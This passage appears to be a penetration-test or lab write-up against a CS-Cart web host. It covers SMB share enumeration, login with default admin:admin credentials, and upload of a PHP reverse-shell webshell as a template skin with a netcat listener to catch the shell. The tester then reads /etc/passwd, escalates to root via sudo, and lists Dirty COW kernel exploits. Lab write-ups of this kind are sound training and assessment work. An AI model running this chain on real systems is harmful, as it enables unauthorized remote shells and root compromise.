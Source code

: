 ```bash
        MSHOME   
```

The SMB shares discovered have the following permissions.
```bash
smbmap -H $TARGET

# output
[+] IP: 192.168.142.39:445      Name: 192.168.142.39                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        IPC$   
```

## Gaining Access
The penetration testing portions of the assessment focus heavily on gaining access to a variety of systems. During this penetration test, Victor was able to successfully gain access to 10 out of the 50 systems.

### Password Guessing  
#### Default Credentials
```bash
firefox http://$TARGET:$PORT
# CS-Cart. Powerful PHP shopping cart software
# admin:admin
```

## Local File Inclusion
### EDB-ID-48891
```bash
mkdir edb-id-48891
cp /usr/share/webshells/php/php-reverse-shell.php ./rshell.phtml
vim rshell.phtml

# upload rshell as a skin
firefox http://192.168.142.39/admin.php?target=template_editor

sudo nc -nvlp 80
firefox http://192.168.142.39/skins/rshell.phtml

cat /etc/passwd
su patrick # patrick:patrick
sudo -l
sudo su
cat /root/proof.txt
```

### CVE-2016-5195
```bash
Linux Kernel 2.6.22 - IPv6 Hop-By-Hop Header Remote Denial of Service                                | linux/dos/30902.c
Linux Kernel 2.6.22 < 3.9 (x86/x64) - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation | linux/local/40616.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (/etc/pas | linux/local/40847.cpp
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW PTRACE_POKEDATA' Race Condition (Write Access Method)         | linux/local/40838.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/ | linux/local/40839.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' /proc/self/mem Race Condition (Write Access Method)          | linux/local/40611.c
```